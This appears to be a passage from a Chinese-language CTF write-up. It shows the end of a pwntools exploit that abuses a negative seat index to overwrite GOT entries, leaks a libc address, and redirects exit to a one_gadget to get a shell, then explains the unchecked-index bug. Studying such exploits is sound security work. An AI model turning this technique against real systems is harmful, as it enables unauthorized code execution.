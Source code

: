 ```python
    
    # 输入-6来实现整数溢出，修改exit@got为main
    p.sendline(b'-6')
    
    p.recvuntil(b'you can input you name\n')
    # 将exit@got修改为main函数地址，实现无限循环
    p.send(p64(elf.sym["main"]))
    
    # 第二步：泄露libc基地址
    # 通过修改setbuf@got的最低位来泄露libc地址
    p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')
    p.sendline(b'-8')  # 修改setbuf@got
    
    p.recvuntil(b'you can input you name\n')
    p.send(p8(0xd0))  # 只修改最低位
    
    # 接收泄露的libc地址
    p.recv(13)
    libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
    libc_base = libc_leak - libc.sym['setbuf']
    
    log.info(f"libc_base: {hex(libc_base)}")
    
    # 第三步：计算one_gadget地址
    # 根据libc-2.31.so的one_gadget偏移
    one_gadget = libc_base + 0xe3b01  # 这个偏移需要根据具体libc版本调整
    
    log.info(f"one_gadget: {hex(one_gadget)}")
    
    # 第四步：修改exit@got为one_gadget
    p.recvuntil(b'Welcome to the plane (0 to 9) please choose seat')
    p.sendline(b'-6')  # 再次修改exit@got
    
    p.recvuntil(b'you can input you name\n')
    p.send(p64(one_gadget))
    
    # 触发exit函数，执行one_gadget
    p.interactive()

if __name__ == "__main__":
    exploit()
```

## 关键技术点解析

### 1. 整数溢出原理
```c
// 伪代码示例
int seat_choice;
scanf("%d", &seat_choice);  // 读取有符号整数
seats[seat_choice] = user_input;  // 没有边界检查
```
当输入负数时，`seats[seat_choice]` 会访问到数组之前的内存区域。
